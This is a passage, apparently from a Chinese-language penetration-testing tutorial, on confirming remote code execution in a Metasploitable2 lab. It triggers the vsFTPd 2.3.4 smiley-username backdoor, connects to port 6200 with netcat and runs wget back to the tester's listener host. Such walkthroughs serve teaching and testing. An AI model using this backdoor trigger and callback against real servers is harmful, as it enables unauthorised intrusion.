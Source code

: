 这个Python脚本使用套接字库来生成一个Web服务器，该服务器监听所有本地接口的TCP 8000 端口。 接收到来自客户端的连接时，脚本将返回客户端的IP地址和发送的请求。 为了使用此脚本验证漏洞，我们需要执行代码，使远程系统与托管的Web服务进行交互。 但在这之前，我们需要使用以下命令启动我们的脚本：

```
root@KaliLinux:~# ./httprecv.py 
Awaiting connection... 
```

接下来，我们需要利用导致远程代码执行的漏洞。 通过检查Metasploitable2盒子内的Nessus扫描结果，我们可以看到运行的FTP服务有一个后门，可以通过提供带有笑脸的用户名来触发。 没有开玩笑……这实际上包含在 FTP 生产服务中。 为了尝试利用它，我们将首先使用适当的用户名连接到服务，如下所示：

```
root@KaliLinux:~# ftp 172.16.36.135 21 
Connected to 172.16.36.135. 
220 (vsFTPd 2.3.4) 
Name (172.16.36.135:root): Hutch:) 
331 Please specify the password. 
Password: 
^C 
421 Service not available, remote server has closed connection 
```

尝试连接到包含笑脸的用户名后，后门应该在远程主机的TCP端口6200上打开。我们甚至不需要输入密码。 反之，`Ctrl + C`可用于退出FTP客户端，然后可以使用Netcat连接到打开的后门，如下所示：

```
root@KaliLinux:~# nc 172.16.36.135 6200 
wget http://172.16.36.224:8000 
--04:18:18--  http://172.16.36.224:8000/
           => `index.html' Connecting to 172.16.36.224:8000... connected. 
HTTP request sent, awaiting response... No data received. 
Retrying.

--04:18:19--  http://172.16.36.224:8000/  
  (try: 2) => `index.html' 
Connecting to 172.16.36.224:8000... failed: Connection refused. 
^C
```

与开放端口建立TCP连接后，我们可以使用我们的脚本来验证，我们是否可以进行远程代码执行。 为此，我们尝试以 HTTP 检测服务器的 URL 使用`wget`。 尝试执行此代码后，我们可以通过查看脚本输出来验证是否收到了HTTP请求：

```
root@KaliLinux:~# ./httprecv.py 
Received connection from :  172.16.36.135 
GET / HTTP/1.0 
User-Agent: Wget/1.10.2 
Accept: */* 
Host: 172.16.36.224:8000 
Connection: Keep-Alive
```

### 工作原理

此脚本的原理是识别来自远程主机的连接尝试。 执行代码会导致远程系统连接回我们的监听服务器，我们可以通过利用特定的漏洞来验证远程代码执行是否存在。 在远程服务器未安装`wget`或`curl`的情况下，可能需要采用另一种手段来识别远程代码执行。
